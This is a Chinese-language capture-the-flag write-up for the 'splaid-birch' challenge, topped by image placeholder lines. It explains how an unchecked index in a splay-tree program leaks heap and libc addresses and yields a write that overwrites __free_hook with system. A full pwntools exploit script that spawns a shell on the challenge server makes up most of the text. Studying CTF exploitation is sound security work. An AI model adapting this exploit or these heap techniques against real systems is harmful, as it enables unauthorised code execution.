








因为怕睡起来忘了，先把wp写了  
程序的主要逻辑相对简单，就是一个菜单
  
`get_sp_point` 和 `get_sp_nth` 都不是关键函数，所以直接略过  
稍微手工 fuzz 了下，程序的主要逻辑写的是一个平衡二叉树，也就是一个树状结构，在 `libsplaid.so.1` 封装了关于树的一些操作，比如 `add` 和 `delete`  
每个节点有一个 `index` 有一个 `value` , 并且有三个指针分别指向当前 节点的叶节点,左孩子,右孩子  
没有还原结构体,所以这里就不分析结构体了
delete 会按照 `index` 进行匹配, add 也会和已有的 `index` 进行对比,如果重复将不能插入  
程序的第一个漏洞在 `set_sp_select` 中,对于参数 `p1` (`a2`)没有 check 范围  
 
`a1` 类似于一个映射表,在里面会存每一个结构体的地址,所以如果我们控制得好，那么就可以打印出 `(v2 + 8 - 0x28)` 即 `(v2 - 0x20)` 的信息了  
因为映射表是在堆上，所以根据偏移和树状结构中所存储的堆地址信息，我们可以计算出 `heap_base`  
`heap_base` 已获得  
但这还不够强大，我们还需要 `libc_base`, 泄露 `libc_base` 我们需要在堆地址上写入 `main_arena` 的信息，也就是需要一个 unsorted bin,在 add 函数中只能分配固定 0x48 大小的堆块, fastbin 大小,所以不可能出现 unsorted bin ,经过发现这个地方有可能出现  
  
根据 realloc 的信息，先在基地址上扩展堆块，能够扩展则地址不变;如果不能扩展,那么会把原来的堆块 free 后再分配,注意分配的堆块会清0  
也就是说,这里有个变相的 free ,那么 `chunk_size` 我们能控制吗
  
经过逆向，发现这个逻辑是 映射表 list 的 index 不够用的时候，会把栈上的结构体更新，并且 realloc 一个更大的 chunk ,所以我们只要分配足够多的节点，就会得到一个 unsorted bin  
这里其实不需要这么做,因为分配过多的堆块会影响 debug  
在 add 函数中会 `++a1[5]`,相当于一个计数器,但是在 delete 函数中,并没有类似的操作  
所以我们可以 add & free 达到类似的效果  
`libc_base` 已获得  
在这时，我们已经得到需要的地址, `heap_base & libc_base`  
那么我们需要一个任意地址写,在 2.27 的 libc 中,我们可以直接构造 double free 获得类似的效果  
为了构造 double free,这里主要考虑两个思路:
- 通过 del 操作,构造 double free
- 通过 uaf 操作,构造 add 后的 chunk 有已经存在的指针信息  
那么我们需要对 `libsplaid.so.1` 进行逆向  
逆向之后发现 del 函数没有问题, 就是一个平衡二叉树的操作  
 
在 `sp_add` 函数中发现了一些 bug,也就是并没有对 `heap_addr[0]` 进行初始化(`heap_addr[0]:叶节点,heap_addr[1]:left_child,heap_addr[2]:right_child`)  
这使得我们可以 del 一个不是根节点的节点,那么可以获得一个 `heap_addr[0]` 不为 0 的 chunk,也就是一个 uaf,但是在测试的时候发现这个思路并不可行,因为 `heap_addr[0]` 会被置为 0,那么是在哪置为 0的呢  
  
经过逆向发现,在 del 函数中如图的位置，会将这个将要 delete 的节点，置为根节点,所以其 `heap_addr[0]` 会被置为0 ,也就是说,这个函数的作用就是 change root  
在此，double free 的基本思路都不可行  
  
然后在 `sp_select` 函数中发现了这个函数，通过调试发现其根节点也会变化,前面说过这个 select 函数的 index 是可以任意决定的, 那么我们可以在任意地址生成一个根节点,如果这个根节点是一个已经 free 过的根节点,那么就是一个 double free 了.  
这个思路是可行的  
- 通过 `sp_select` 函数泄露 `heap_base & libc_base`  
- 通过 `sp_select` 更改根节点构造 double free
但是，经过调试之后发现,会在最后的时候一直分配不出来,前面已经讲过, add 的时候会 check index 是否存在,如果 double free 的话,会造成无法 add 的问题  
做到这心态差点崩了  
 
那么我们需要另外一个任意地址写,因为我们已经有了一个任意地址生成结构体,在 isolate2 函数中,有一个 `+=a2`,因为结构体是一个任意地址，相当于一个任意地址写了,那么我们的思路是  
- 通过 `sp_select` 函数泄露 `heap_base & libc_base`  
- 通过 `sp_select` 更改根节点构造一个在 `__free_hook` 周围的 chunk  
- 修改 `__free_hook` 为 `system`  
- free 一个 index 为 /bin/sh 的结构体 -> system("/bin/sh")  
payload 如下:

```python
from pwn import *
import sys

if len(sys.argv) < 2:
    debug = True
else:
    debug = False

if debug:
    p = process("./splaid-birch", env = {"LD_PRELOAD":"./libsplaid.so.1"})
    libc = ELF("./libc.so.6")
    elf = ELF("./splaid-birch")
else:
    p = remote("splaid-birch.pwni.ng","17579")
    libc = ELF("./libc.so.6")
    elf = ELF("./splaid-birch")

def menu(choice):
    p.sendline(str(choice))

def free(value):
    menu(1)
    menu(value)

def show1(value):
    menu(2)
    menu(value)

def show2(index):
    menu(3)
    menu(index)

def show3(index):
    menu(4)
    menu(index)

def add(value,index):
    menu(5)
    menu(value)
    menu(index)

def isolate(p1,p2):
    menu(6)
    menu(p1)
    menu(p2)

def isolate2(p1,p2,p3):
    menu(7)
    menu(p1)
    menu(p2)
    menu(p3)

code_base = 0x555555554000
code_base2 = 0x7ffff7bd2000
def debugf():
	#gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del".format(b1 = hex(code_base + 0x1074)))
	gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del\nb sp_add\nb *{b2}".format(b1 = hex(code_base + 0x1074),b2 = hex(code_base2 + 0xE03)))
	#gdb.attach(p,"b *{b1}\nb sp_select\nb sp_isolate\nb sp_del\nb *{b2}".format(b1 = hex(code_base + 0x1074),b2 = hex(code_base + 0xD4E)))

context.log_level = "debug"
context.terminal = ["tmux","splitw","-h"]
"""
for i in range(0xa01):
    add(i,1)"""
add(1,1)
add(2,2)
add(3,3)
show3(541)
info = int(p.recvuntil("\n",drop = True))
heap_base = info - 0x1348
log.success("heap_base:" + hex(heap_base))
show3(1)
free(1)
free(2)
free(3)
for i in range(0xa0 - 4 - 2):
    add(1,1)
    free(1)
add(1,1)
add(2,2)
add(3,3)
add(4,4)
target = heap_base + 0x13c0
log.success("libc_leak_target:" + hex(target))
#debugf()
free(1)
free(2)
free(3)
free(4)
add(target - 8,9)
show3(-10)
#debugf()
p.recvline()
info = int(p.recvuntil("\n",drop = True))
libc.address = info - 96 - 0x10 - libc.symbols["__malloc_hook"]
log.success("libc_base:" + hex(libc.address))
#debugf()
show3(0xa1)
free(target - 8)
#debugf()
target_value = u64("/bin/sh\x00")
add(target_value,libc.symbols["__free_hook"] - 0x10)
show3(-9)
isolate2(libc.symbols["system"],0,0)
show3(0xa2)
free(target_value)
"""
target = heap_base + 0x18d0
log.success("double_free_target:" + hex(target))
add(target - 8,target - 8)
free(target - 8)
show3(-10)
free(0)
index_target = heap_base + 0x1320
free(index_target)
index_target = heap_base + 0x12d0
free(index_target)
debugf()
attack_target = libc.symbols["__free_hook"] - 8
attack_value = libc.symbols["system"]
attack_value2 = u64("/bin/sh\x00")
add(attack_target,0)
add(100,100)
add(101,101)
add(attack_value2 - 1,attack_value)
add(attack_value2 ,attack_value)
add(attack_value2 + 1,attack_value)
add(attack_value2 + 2,attack_value)
free(attack_value2)
"""
p.interactive()
```